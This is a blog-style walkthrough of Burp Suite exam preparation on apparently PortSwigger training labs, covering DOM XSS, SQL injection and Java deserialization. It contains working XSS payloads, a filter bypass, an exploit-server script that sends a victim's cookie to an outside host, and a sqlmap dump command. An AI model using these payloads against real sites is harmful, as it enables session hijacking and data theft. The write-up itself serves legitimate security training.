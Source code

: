 ```yaml
---
toc: true
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true
title: Burp Suite Exam Prep !
header:
  image: /assets/images/burp/burp_header.jpeg
  teaser: /assets/images/burp/burp_teaser.png
  
---
```



### **EXAM PREP**

**1/3: XSS**

DOM XSS in lookup function :

When the app is launched we immediatly see the search bar, what I always try is for XSS. 
I use the “Untrusted types” on Chrome. 

I put something in search and click on “search”

![untrusted.png](/assets/images/burp/untrusted.png)

By referring to DOM XSS labs on Portswigger, we see that there are 2 DOM XSS payloads who can work here : 

```jsx
\\"-alert(1)}//
or
"-alert(1)-"
```

XSS can be used to steal cookies of other users, then we need to try : 

```jsx
\\"-alert(document.cookie)}//
```

But no luck : 

![XSS blocked.png](/assets/images/burp/XSS_blocked.png)

We need to find a bypass and I found on the internet that we can bypass it by using : 

```jsx
\\"-alert(window["document"]["cookie"])}//
```

![XSS Bypassed.png](/assets/images/burp/XSS_Bypassed.png)

Now that we have the good payload we have to construct a payload with the exploit server link :

Add this code in exploit-server and 

```jsx
<script>

location='https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/?SearchTerm=%22-%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-0a6d00a40340d487c0a03af7016a000c%252eexploit-server%252enet%2F%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29-%22';

</script>
```

![Capture d’écran 2023-02-03 à 14.05.12.png](/assets/images/burp/Capture_decran_2023-02-03_a_14.05.12.png)

We just have to replace the session cookie to have access to Carlos account. 

**2/3 SQL Injection**

We have access to a new feature : 

![AdvancedSearch.png](/assets/images/burp/AdvancedSearch.png)

We see a parameter ⇒ sorted-by vulnerable to SQLi

![VulnParam.png](/assets/images/burp/VulnParam.png)

I launched the sqlmap command below : 

```jsx
sqlmap -u "[https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*](https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*)" --cookie="_lab=46%7cMCwCFAuZTmvz13aVBBW1bpQM25dE2RVNAhRq8fmJk1vCl2i8uauGpq2N%2bIytqdEsQkFl0b%2b8pNzF%2f4p3No1yF19zA%2bj3GuVuecfTlUlSWFGu7SfWBmEz6Mu0JEWnJg5r4GggAibBFB9QtX0gMd%2fLhfFCfcTKNJtOaZ4mGvaUex6vw3k%3d; session=F8UksvHTO0lwQgGckaeEpePsgEJQTvs2" --dump
```

![SQLi result.png](/assets/images/burp/SQLi_result.png)

Now time to visit admin-panel and see what’s the next bug ! 

**3/3** ****DESERIALIZATION:****

Using Burp Scanner we can see that admin_pref are vulnerable :

![Launch Scan.png](/assets/images/burp/Launch_Scan.png)

![Burp Scan.png](/assets/images/burp/Burp_Scan.png)

Using Deserialization Scanner plugin on Burp gave me these informations : 

![JavaDeserialization.png](/assets/images/burp/JavaDeserialization.png)

Once the payload is generated and the request sent, we can go back to Burp Collaborator to see if we have a ping back : 

![Solution.png](/assets/images/burp/Solution.png)

BINGO ! We have then finished the lab. 

I hope you enjoyed reading this article as much as I enjoyed writing it.
